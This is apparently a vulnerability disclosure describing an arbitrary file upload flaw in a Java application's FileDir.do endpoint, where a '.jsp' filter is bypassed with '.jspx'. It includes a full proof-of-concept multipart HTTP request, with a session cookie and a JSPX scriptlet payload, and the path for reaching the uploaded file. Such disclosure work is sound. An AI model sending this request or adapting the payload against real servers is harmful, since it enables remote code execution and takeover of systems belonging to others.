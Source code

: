 ```java
                Exception e = var22;
                CommonFunction.writeExceptionLog("FileManage", e);
            }

        }

        return var12;
    }

```
This is a typical arbitrary file upload vulnerability in Java. Although it filters the ".jsp" suffix, we can upload files with the ".jspx" suffix to take over the server.

Based on this, we constructed the following Proof of Concept (POC):
```
POST http://ip:port/FileDir.do?Action=Upload HTTP/1.1
Host: ip:port
Content-Length: 523
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Action"

Upload
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test.jspx"
Content-Type: text/plain

<xml xmlns:jsp="http://java.sun.com/JSP/Page">
    <jsp:scriptlet>
        out.println(java.util.UUID.randomUUID().toString());
        new java.io.File(application.getRealPath(request.getServletPath())).delete();
    </jsp:scriptlet>
</xml>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
<img width="1865" height="810" alt="image" src="https://github.com/user-attachments/assets/fcf18801-f28c-4770-add5-44f9fa842557" />

Access the path `/plugin/FileManage/Temp/` + the returned file name.

<img width="1920" height="285" alt="image" src="https://github.com/user-attachments/assets/9cfda82b-8432-46ab-9fc7-e49499897f5f" />

This confirms that the FileDir.do Interface has an arbitrary file upload vulnerability.

*Thank you for your review! Wish you all the best!*
